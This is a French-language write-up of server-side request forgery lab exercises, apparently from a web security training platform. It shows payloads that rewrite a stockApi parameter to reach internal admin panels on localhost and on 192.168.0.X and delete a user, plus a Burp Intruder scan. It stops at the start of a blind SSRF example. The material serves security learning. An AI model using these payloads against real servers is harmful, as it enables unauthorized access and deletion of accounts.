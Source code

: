 ## Description
Le Server-Side Request forgery est une vulnérabilité de sécurité web qui permet à un attaquant d'amener l'application côté serveur à envoyer des requêtes à un endroit non désiré.

### Impact
Une attaque SSRF réussie peut souvent entraîner des actions non autorisées ou l'accès à des données au sein de l'organisation. Cela peut se produire dans l'application vulnérable ou dans d'autres systèmes de base avec lesquels l'application peut communiquer. Dans certaines situations, la vulnérabilité SSRF peut permettre à un attaquant d'exécuter des commandes arbitraires.

- **Exemple 1**
```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1

```
Ici la fonctionalite de `stockApi` contient une vulnerabilte de `SSRF`, qui recupere les donnes dans un systems internes.
Si alors je le change en `http://localhost/admin` j'accede a la panel admin interne en local
```html
                       <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>

```
et a partir d'ici si je veux supprimer un utilisateur je vais juste copier cet url qui me renvoi a son profil

```
stockApi=http://localhost/admin/delete?username=carlos&sto
```


- **Exemple 2: SSRF par rapport a un system backend**

Ce laboratoire dispose d'une fonction de contrôle des stocks qui récupère les données d'un système interne.
```
stockApi=http://192.168.0.1:8080/product/stock/check?productId=2&storeId=1
```
- pour resoudre ce lab, on doit utiliser la fonctionnalité de contrôle des stocks pour rechercher dans la plage interne `192.168.0.X` une interface d'administration sur le port 8080, puis l'utiliser pour supprimer l'utilisateur `Carlos`.

Avec Burp Intruder je trouve que le lenght de `173` est trop moins que les autres aussi avec un not found

```html
stockApi=http://192.168.0.173:8080/admin&storeId=1


                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/http://192.168.0.173:8080/admin/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/http://192.168.0.173:8080/admin/delete?username=carlos">Delete</a>
                        </div>
```

- **Exemple 3: SSRF aveugle avec détection hors bande**
Ce site utilise un logiciel d'analyse qui récupère l'URL spécifiée dans l'en-tête Referer lorsqu'une page de produit est chargée.
